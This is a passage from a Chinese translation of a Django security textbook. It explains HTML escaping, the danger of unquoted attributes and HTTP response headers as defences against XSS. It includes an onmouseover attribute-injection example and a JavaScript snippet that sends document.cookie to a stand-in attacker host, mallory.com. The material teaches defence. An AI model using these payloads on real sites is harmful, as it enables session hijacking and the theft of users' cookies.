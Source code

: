 和 `safe` 过滤器一样， `escape` 过滤器是 Django 内置实用函数的包装器。内置的 `escape` 函数，这里用粗体显示，允许您以编程方式对特殊字符进行转义。该函数将原生 Python 字符串的转义与 `SafeStrings` 类似:

```py
>>> from django.utils.html import escape
>>> 
>>> poison = '<script>/* malicious */</script>'
>>> escape(poison)
'&lt;script&gt;/* malicious */&lt;/script&gt;'     ❶
```

❶ 中和 HTML

像其他值得尊敬的模板引擎(适用于所有编程语言)一样，Django 的模板引擎通过转义特殊的 HTML 字符来抵制 XSS。遗憾的是，并非所有恶意内容都包含特殊字符。在下一节中，您将了解这个框架无法保护您 的一个极限情况。

### 14.3.2 HTML 属性引用

下面是一个简单模板的例子。如粗体所示，一个 `request` 参数决定了一个 `class` 属性的值。如果 `request` 参数等于一个普通的 CSS 类名，这个页面的行为与预期的一样。另一方面，如果参数包含特殊的 HTML 字符，Django 会像往常一样对它们进行转义:

```py
<html>
    <div class={{ request.GET.query_parameter }}>
        XSS without special characters
    </div>
</html>
```

你有没有注意到 `class` 属性值是不带引号的？不幸的是，这意味着攻击者不使用一个特殊的 HTML 字符就可以滥用这个页面。例如，假设这个页面属于 SpaceX 的一个重要系统。马洛里用反射 XSS 攻击瞄准了猎鹰 9 队的技术员查理。现在想象当参数到达 `className` `onmouseover=javascript:launchRocket()` 时会发生什么。

好的 HTML 卫生，而不是框架，是抵抗这种形式的 XSS 的唯一方法。简单地引用类属性值确保了 `div` 标签安全地呈现，而不管模板变量值如何。帮自己一个忙，养成总是引用每个标签的每个属性的习惯。HTML 规范不需要单引号或双引号，但有时像这样的简单约定可以避免灾难。

在前两节中，你学习了如何通过身体反应来抵抗 XSS。在下一节中，您将学习如何通过响应的头来实现这一点。

## 14.4 HTTP 响应头

*回应* *标题*代表了对 XSS 非常重要的一层防御。这一层可以防止一些攻击，并限制其他攻击的损害。在本节中，您将从三个角度了解这个主题:

*   禁止 JavaScript 访问 cookies

*   禁用 MIME 嗅探

*   使用 `X-XSS-Protection` 表头

这里每一项背后的主要思想是通过限制浏览器对响应的处理来保护用户。换句话说，这就是服务器将 PLP 应用于浏览器的方式。

### 14.4.1 禁止 JavaScript 访问 cookies

获得 获取受害者的饼干是 XSS 的共同目标。攻击者特别针对受害者的会话 ID cookie。下面两行 JavaScript 演示了这有多简单。

第一行代码构造了一个 URL。URL 的域指向攻击者控制的服务器；URL 的参数是受害者的本地 cookie 状态的副本。第二行代码将这个 URL 作为图像标签的源属性插入到文档中。这会触发对 mallory.com 的请求，将受害者的 cookie 状态传递给攻击者:

```py
<script>
    const url = 'https:/./mallory.com/?loot=' + document.cookie;   ❶
    document.write('<img src="' + url + '">');                    ❷
</script>
```
